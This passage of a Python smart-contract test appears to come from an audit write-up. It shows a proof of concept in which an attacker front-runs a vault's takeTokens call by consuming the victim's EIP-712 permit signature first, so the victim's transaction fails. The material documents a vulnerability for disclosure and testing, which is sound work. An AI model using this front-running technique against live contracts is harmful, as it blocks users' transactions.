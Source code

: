 ```python
                                      Eip712Domain(
                                            name="earlyZERO",
                                            version="1",
                                            chainId=default_chain.chain_id,
                                            verifyingContract=zero_token.address))
    
    permit_data = ILPVault.PermitData(value=permit.value,
                                      deadline=permit.deadline,
                                      v=signature[64], 
                                      r=signature[:32], 
                                      s=signature[32:64])
    

    # Bob frontrun takeTokens TX and extract permit
    # Because Bob used the specific signature `x_vault.takeTokens` will fail
   
    # Comment this section and TX takeTokens will pass
    # '''
    zero_token.permit(permit.owner, 
                      permit.spender, 
                      permit.value, 
                      permit.deadline, 
                      signature[64], 
                      signature[:32], 
                      signature[32:64], 
                      from_=bob)
    # '''

    tx = x_vault.takeTokens(amount, permit_data, from_=alice)
    print(tx.call_trace)
    assert zero_token.balanceOf(x_vault) == amount



```